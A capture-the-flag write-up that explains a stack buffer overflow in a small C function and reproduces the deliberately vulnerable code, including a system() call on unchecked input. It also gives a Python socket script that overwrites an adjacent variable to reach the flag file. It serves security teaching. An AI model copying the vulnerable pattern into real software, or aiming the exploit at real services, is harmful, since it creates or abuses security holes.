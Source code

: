 Buffer Overflow Exploitation on a C Program
Introduction

This write-up details the process of exploiting a buffer overflow vulnerability in a C program as part of a Capture The Flag (CTF) challenge. The challenge involved manipulating the value of a variable by overflowing a buffer in the program.
The Vulnerable Program

The C program provided for the challenge contained a function named play(). This function declared a buffer of size 8 bytes and two integer variables a and b. The function read 12 bytes of input into the 8-byte buffer, creating a buffer overflow vulnerability. Depending on the values of a and b, the function would perform different actions, including reading a file named "flag.0".

c code below:

int play() {

	int a;
	int b;
	char buffer[010];
	a = 0x41414141;
	b = 0x42424242;

	if (write(STDOUT_FILENO, "For a moment, nothing happened. Then, after a second or so, nothing continued to happen.\n> ", 91) < 0) {
		perror("write");
	}

	sleep(1);

    if (read(STDIN_FILENO, &buffer, 0xC) < 0) {
        perror("read");
    }
	
	if (a == 31337) {
		system(buffer);
	}

	else if (b == 42) {
		readfile("flag.0");
	}

	else if (b == 23) {
		readfile("vuln1.txt");
	}

	else {
		write(STDOUT_FILENO, "So long and thanks for all the fish.\n", 37);
	}

}

The Exploit

The goal of the challenge was to exploit the buffer overflow vulnerability to change the value of b to 42, causing the program to read the "flag.0" file.

To achieve this, a payload was constructed that consisted of 8 bytes to fill up the buffer, followed by 4 bytes to overwrite the value of b. The payload was sent to the program over a network connection.

Here's the Python script that was used to send the payload:

python

import struct
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 1984))  # replace with the actual host and port

response = s.recv(1024)
print(response)

payload = b'A' * 8  # fill up the buffer
payload += struct.pack('<I', 42)  # overwrite b with 42 (little-endian)

s.send(payload)
response = s.recv(1024)
print(response)

Result

The script successfully exploited the buffer overflow vulnerability, causing the program to read the "flag.0" file and send the contents back over the network connection. The contents of the file were the flag for the CTF challenge: *REDACTED*.

Conclusion

This challenge demonstrated the dangers of buffer overflow vulnerabilities and the importance of proper input validation and buffer management in C programs. By understanding how these vulnerabilities work and how to exploit them, we can write more secure code and better protect our systems from attackers.
